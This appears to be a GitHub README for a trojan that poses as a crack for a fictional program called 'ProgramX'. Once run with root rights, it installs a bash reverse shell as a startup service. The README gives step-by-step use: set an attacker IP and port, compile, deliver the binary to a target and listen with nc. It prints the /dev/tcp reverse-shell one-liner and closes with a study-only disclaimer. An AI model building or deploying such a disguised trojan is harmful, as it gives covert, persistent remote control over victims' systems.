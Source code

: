 # Trojan - Cracking Software
Basic trojan with command and control functionatilies for ubuntu based systems. This trojan was created for study porpuses only.

It emulates a scenario of a binarie that patches/cracks a ficticional legit software called ProgramX but inside has a malware. 
When the user download it, If he try to run it without admin privileges, it will not run and ask to be run again with admin privileges.
After being executed, the binarie will do it's legimitate work of patching/cracking ProgramX but will also install a reverse shell on the user's system.
The binare will create a shell script that runs the reverse shell and then add the first script as a service to be run at system startup. 

It was coded in C and Bash Scripting.

## How to use:

1 - Change the attacker IP Address and Port to connect in the source code (line 52).

```
bash -i >& /dev/tcp/attackerip/porttoconnect 0>&1 2>&1
```
2 - Compile code

3 - Download/Send the binarie to the target machine

4 - Give Read/Write/Execution permissions to the file

```
chmod +rwx programxpatch
```

5 - Open and listen to the port in your host (attacker host) using ncat or nc

6 - Run

![image](https://github.com/Smarttfoxx/softwarecracktrojan/assets/140526026/87100563-10fd-4327-bb0e-d1f37985f41f)

![Sem título](https://github.com/Smarttfoxx/softwarecracktrojan/assets/140526026/450d909f-1a69-4cf5-b82f-986c16c4a45a)


# DISCLAIMER

This binarie was created for only study porpuses, it was not and shouldn't be used against any third party without permission.
<br>
I am not responsible for any illegal ou bad use of the binarie.
